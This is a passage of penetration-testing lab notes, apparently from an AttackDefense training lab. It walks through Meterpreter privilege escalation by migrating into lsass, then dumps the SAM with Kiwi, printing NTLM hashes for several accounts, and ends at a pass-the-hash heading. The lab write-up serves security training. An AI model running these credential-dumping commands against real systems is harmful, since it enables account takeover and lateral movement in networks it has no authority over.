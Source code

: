### Privilege Escalation

```bash
pgrep lsass
migrate 772
getuid
	Server username: NT AUTHORITY\SYSTEM
```

### Hash Dumping - Kiwi

```bash
load kiwi
```

```bash
lsa_dump_sam
```

```bash
[+] Running as SYSTEM
[*] Dumping SAM
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326
Local SID : S-1-5-21-3688751335-3073641799-161370460

SAMKey : 858f5bda5c99e45094a6a1387241a33d

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: e3c61a68f1b89ee6c8ba9507378dc88d

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 58f8e0214224aebc2c5f82fb7cb47ca1

RID  : 000003f0 (1008)
User : student
  Hash NTLM: bd4ca1fbe028f3c5066467a7f6a73b0b
```

> 📌 Save users NTLM hashes in a text file for future use
>
> `Administrator: e3c61a68f1b89ee6c8ba9507378dc88d`
>
> `student: bd4ca1fbe028f3c5066467a7f6a73b0b`

### Pass-the-hash PSExec
